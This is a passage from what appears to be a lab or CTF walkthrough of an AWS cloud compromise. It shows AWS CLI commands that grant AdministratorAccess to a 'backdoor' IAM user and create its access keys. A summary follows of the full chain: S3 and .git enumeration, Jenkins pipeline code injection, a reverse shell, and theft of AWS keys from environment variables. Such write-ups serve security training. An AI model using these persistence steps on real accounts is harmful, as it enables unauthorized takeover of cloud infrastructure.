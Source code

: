 - Now we will make the user we just created an administrator by applying the following policy
```
	aws --profile <username> iam attach-user-policy --user-name <identity_name> --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```
- Once that is done, we will proceed to create the secret key and ID for the backdoor user.
```
	aws --profile <username> iam create-access-key --user-name <backdoor>
```
![alt](/images/posts/aws83.webp)
- Now we will proceed to configure the user we just created.
```
	aws configure --profile=<backdoor>
```
![alt](/images/posts/aws84.webp)
- Once the user is fully configured, we will list its attached policies and find that it is a administrator user.
```
	aws --profile <backdoor_user> iam list-atached-user-policies --user-name <name>
```
![alt](/images/posts/aws85.webp)

## KEY FEATURES
- **Web Enumeration:** Discovery of exposed AWS S3 bucket through web fuzzing and directory enumeration (.git directory found).
- **Source Code Analysis:** Extraction of sensitive information such as encoded credentials from the Git repository stored in the S3 bucket.
- **Credential Access:** Obtaining administrator credentials for a self-hosted Git service (Gitea/GitLab).
- **CI/CD Pipeline Exploitation:** Identification and modification of Jenkins pipeline configuration files to inject malicious code and trigger remote command execution via webhook.
- **Reverse Shell:** Gaining interactive shell access to the Jenkins host via injected commands.
- **Privilege Escalation:** Discovery of AWS keys stored as environment variables for the Jenkins user.
- **AWS CLI Usage:** Enumeration of S3 bucket contents and user privileges through AWS CLI commands.
- **AWS IAM Exploitation:** Creation of a backdoor user with full administrative permissions by leveraging excessive IAM privileges (Action and Resource set to *).

## AWS CLOUD TOOLS USED
- **AWS S3:** Accessing and enumerating S3 buckets, listing files, downloading objects, and syncing entire buckets.
- **AWS CLI:** Command-line tool for interacting with AWS services, used here for bucket enumeration, file download, IAM user and policy management.
- **IAM (Identity and Access Management):** Exploring user policies, enumerating permissions, creating users, attaching policies, and managing credentials.
- **AWS Environment Variables:** Understanding and exploiting AWS keys exposed in environment variables.
